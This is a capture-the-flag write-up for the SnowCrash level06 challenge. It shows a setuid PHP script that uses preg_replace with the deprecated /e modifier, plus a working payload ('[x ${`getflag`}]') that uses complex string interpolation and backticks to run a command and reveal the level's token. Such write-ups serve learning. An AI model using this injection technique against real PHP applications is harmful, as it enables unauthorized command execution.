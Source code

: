 ## level06

1. Check files in current working directory (home dir)
    - `-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06*`
    - `-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php*`

`level06.php` contains :
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Prettified :
```bash
#!/usr/bin/php
<?php

function y($m) {
        $m = preg_replace("/\./", " x ", $m); // replace '.' with ' x ' 
        $m = preg_replace("/@/", " y", $m); // replace '@' with ' y'
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y); // reads $argv[1] 
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); // evaluates the content of $argv[1] as a function, if \[x (.*)\] is found
        $a = preg_replace("/\[/", "(", $a); // replace '[' with '('
        $a = preg_replace("/\]/", ")", $a); // replace ']' with ')'
        return $a;
}

$r = x($argv[1], $argv[2]);
```

PHP docs:
> When using the deprecated `e` modifier, this function escapes some characters (namely `'`, `"`, `\` and NULL) in the strings that replace the backreferences.

complex string interpolation syntax + backticks operator:
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /dev/shm/asdf
level06@SnowCrash:~$ ./level06 /dev/shm/asdf
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```